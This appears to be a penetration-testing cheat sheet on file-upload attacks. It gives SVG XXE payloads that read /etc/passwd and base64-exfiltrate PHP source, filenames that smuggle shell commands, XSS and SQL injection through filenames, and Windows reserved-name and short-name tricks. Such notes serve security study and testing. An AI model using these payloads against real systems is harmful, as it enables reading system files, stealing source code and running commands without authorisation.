 ***

## **File Uploads to XXE Attacks**

1.  \[Read `/etc/passwd`] XXE from SVG images upload by using the following payload:

    ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <svg>&xxe;</svg>
    ```
2.  \[Exfiltrate PHP Code] XXE from SVG to read source code:

    ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]> 
    <svg>&xxe;</svg>
    ```

***

## **Injections in File Names**

> * A common file upload attack uses a malicious string for the uploaded file name
> * The filename may get executed or processed if the uploaded file name is reflected on the page.
> * We can try injecting a command in the file name, and if the web application uses the file name within an OS command, it may lead to a command injection attack.
> * Some examples of filenames for this attack:

1. System Command Execution
   * `file$(whoami).jpg`
   * `file`whoami`.jpg`
   * `file.jpg||whoami`
2. XSS from filename:
   * `<script>alert(window.origin);</script>`
3. SQLi from filename:
   * `file';select+sleep(5);--.jpg`

***

## **Windows Specific Attacks**

1. **Reserved Characters:** such as (`|`, `<`, `>`, `*`, or `?`) are characters for special uses (such as wildcards).
   * If the web application doesn't apply any form of input sanification, it's possible to refer to a file different from the specified one (which does not exist)
   * This behaviour causes an error which may be shown on the web application, potentially showing the `upload directory`
2. **Windows Reserved Names:** can be used to replicate the same behaviour as the reserved characters previously shown. (`CON`, `COM1`, `LPT1`, or `NUL`)
3. **Windows Filename Convention:** it's possible to overwrite a file (or refer to a non-existant file) by using the `~` character to complete the filename
   * Example: `HAC~1.TXT` → may refer to hackthebox.txt
   * Reference: [https://en.wikipedia.org/wiki/8.3\_filename](https://en.wikipedia.org/wiki/8.3_filename)
